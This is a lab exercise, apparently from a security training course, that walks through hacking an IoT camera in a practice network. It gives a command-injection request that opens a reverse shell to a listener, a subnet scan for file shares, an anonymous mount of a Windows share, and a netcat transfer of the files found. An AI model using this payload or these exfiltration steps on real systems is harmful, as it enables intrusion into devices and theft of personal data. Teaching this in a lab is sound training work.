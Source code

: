 # IoT Camera Hack | Exercise 02

## Summary

The previous exercise focused on the concepts of interacting with an IoT device and launching a publicly accessible exploit on a known vulnerability. This exercise expands on your previously gained knowledge and investigates lateral movement and data exfiltration.

The following are learning objectives that you will gain from completing this exercise:

* An understanding of Windows file shares
* Executing Remote Code Execution and data exfiltration
* Creating and using a pivot

## Instructions

1. Let's begin with something a little bit more complicated than the previous exercise. Open two _Terminal_ windows in the _Kali VM_ and we’ll attempt an exploitation technique that leverages a Remote Code Execution vulnerability.
2. For the reminder of this exercise, we’ll call the first _Terminal_ window, _Terminal Alpha_, and the other _Terminal Bravo_.
3. In _Terminal Alpha_, type the following command:

    ```bash
    ncat -vlp 31337
    ```

4. The previous command should show the following output: `Ncat: Listening on 0.0.0.0:31337`. If not, you may try again or investigate the _Kali VM_'s networking configuration.
5. At this point of the exercise, what you have done here is set up a simple server (_ncat_) with the sole purpose of exchanging messages between your _Kali VM_ and any clients that connect to this system.
6. Now here comes a more complicated step, remember that IP address<a href="#foot1"><sup>1</sup></a> that we asked you to write down in step 3 of exercise 01? We’re going to use this information to remotely instruct the camera to communicate to our simple _ncat_ server.
7. Switch to _Terminal Bravo_ and type the following command while remembering to replace `<Camera IP>` and `<Kali VM IP>` with the appropriate values mentioned throughout the exercises.

    ```bash
    curl -v \
    "http://<Camera IP>:80/JpegStream.cgi?\
    username=root\&password=%3bmkfifo%20/tmp/s0%3bnc\
    %20-w%205%20<Kali VM IP>%2031337</tmp/s0|/bin/sh>\
    /tmp/s0%202>/tmp/s0%3brm%20/tmp/s0%3b\&data_type=1\&attachment=1\&channel=1\
    \&secret=1\&key=HACKED"
    ```

8. If everything went smoothly, you should see in _Terminal Alpha_, `Ncat: Connection from <Camera IP` otherwise, try the previous step again.

9. If you were successful,  you can now claim that you remotely exploited an IoT camera with the ability to instruct the camera to execute additional commands that was outside its normal, designed operation.

10. For a hacker, gaining access to a network is a feat by itself, but their typical motives is lateral movement and obtaining intellectual property or data. Let’s try to look for file services on the network such as a Windows File Share that we previously created from _Exercise 00_.

11. Write down the IP Addresses of the following devices:

    Camera IP: ____________________________________

    Kali VM IP: ___________________________________

12. Compare the two IP addresses and you should notice that there are many similarities. Specifically, the first three numerical values should be similar such as _192.168.1.X_ or _192.168.0.X_ where the _X_ should be a different value. If there are no similarities, verify that the _Kali VM_ has its _Virtual Box_ network configuration is set to _Bridged Adapter_.

13. In _Terminal Alpha_, type the following command where _XXX.XXX.XXX_ is the similar numerical values we discovered in the previous step. Note, be sure to use backtick (the key above tab) for the command:

    ```bash
    for i in `seq 1 254`;
    do echo -n $i- && wget http://XXX.XXX.XXX.$i:445 -O -; 
    done
    ```

14. At this point, you are trying to find additional devices (enumerate) that reside on the same network as the camera. Particularly, we are looking for any system that utilizes file sharing services (:445), like a Windows computer as they may hold valued information for a hacker like yourself. From the output in _Terminal Alpha_, which number shows no response from server?

    Write down the number here __________________________

    Note, if you have difficulty locating the number, make sure the _Virtual Box_ network configuration for both the _Kali_ and _Windows VM_ are set to _Bridged Adapter_.

15. Type the following command while replacing AAA with the number you wrote down in step 14:

    ```bash
    mount -t cifs -o username=””,password=”” //192.168.5.AAA/share /mnt
    ```

16. Now type the following two commands in _Terminal Alpha_: 

    ```bash
    cd /mnt
    ls
    ```

17. What do you see? It should be something interesting and personal to what a home user may have on their computer. What you have just done is identified that a particular system on the network (step 14) uses a file sharing service, and attempt to connect to it (step 15) and access the contents in the share (step 16).

18. Lets take the content that you have discovered and send it back to our _Kali VM_ for examination. Open up a _netcat_ listener (another simple server) to allow us to access the file with the following command while replacing _<File Name>_ with the name of the discovered file:

    ```bash
    nc -l -p 31338 < <File Name>
    ```

19. Open a new _Terminal_ and type the following command to retrieve the file we previously created where X is your user number:
nc <Camera IP> 31338 > ~/Desktop/<File Name>

20. You should now see the file on your _Desktop_

21. You may now look around the _/mnt_ folder for anything else you find interesting, but when you’re done, type `umount /mnt`

22. Thank you for participating in our IoT Exercise, we hope you had a blast!

Footnotes
=========
<a id="foot1" href="#foot1"><sup>[1]</sup></a> The reminder of this and subsequent exercises will refer this IP address as the `<Kali VM IP>` where the angle brackets are __not__ included in the step